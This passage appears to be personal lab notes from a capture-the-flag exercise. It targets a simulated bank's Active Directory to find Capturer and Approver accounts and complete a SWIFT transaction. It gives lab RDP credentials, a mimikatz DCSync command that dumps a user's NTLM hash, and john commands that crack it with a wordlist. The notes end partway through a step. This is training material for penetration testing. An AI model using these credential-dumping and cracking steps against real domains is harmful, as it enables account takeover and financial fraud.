 Once you have submit the flag 17 you'll get an email with the following message:

![[Enumerate users CAPTURERS and APPROVERS-20240619135517810.webp]]

So to break it down further:

- We need a user account from `Capturers` group,
- We need to log in with this account and capture the transaction,
- We also need to get a user account from `Approvers` group,
- We then need to log in as approver and complete the transaction to achieve the goal,

## Connect to BANKDC via RDP and enumerate the user groups

- Connect from CORPDC to BANKDC `10.200.X.101` with the following credentials:

	Username: `kairosbank`
	Password: `Capstone1@`

- Enumerate the users with the Capturer and Approver Role in the Bank Domain (you can just use the **Active Directory Users and Computers** snap-in):
	![[Enumerate users CAPTURERS and APPROVERS-20240618151057753.webp]]

Notice that there are two groups that we are interested in. Check out the users in each group. You don’t need to compromise all the accounts–just **one account from each group** to complete the task.

![[Enumerate users CAPTURERS and APPROVERS-20240619140440523.webp]]
![[Enumerate users CAPTURERS and APPROVERS-20240619140454701.webp]]

## Dump NTLM hashes for these users

- [[Connect to CORPDC with Administration credentials]]
- <span style="background:#d4b106">RDP to BANKDC with the [[Create user at BANK Forest|new user]].   </span> 
- Open a Powershell on BANKDC as administrator.
- Go to `c:\Users\Administrator.THERESERVE\Downloads`.
- Run `mimikatz`.Password
	-  # privilege::debug
	-  # lsadump::dcsync /user:c.young
		![[Enumerate users CAPTURERS and APPROVERS-20240621144300147.webp]]
	 Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc

### Cracking the hash on your attacking machine

- Create a file with the hash.
	$ `echo "fbdcd5041c96ddbd82224270b57f11fc" > ntlm_hash.c.young.txt`

- Crack the hash with `john`.
	$ `john --wordlist=/usr/share/wordlists/rockyou.txt  --format=NT ntlm_hash.c.young.txt` 
	![[Enumerate users CAPTURERS and APPROVERS-20240621150830988.webp]]

### RDP to JMP

[[RDP to JMP]]

Checking the folders contents you'll find a note for the approver.
- Go to `C:\Users\a.holt\Documents\Swift`.
- Open the swift file.
	![[Enumerate users CAPTURERS and APPROVERS-20240621155345848.webp]]
- 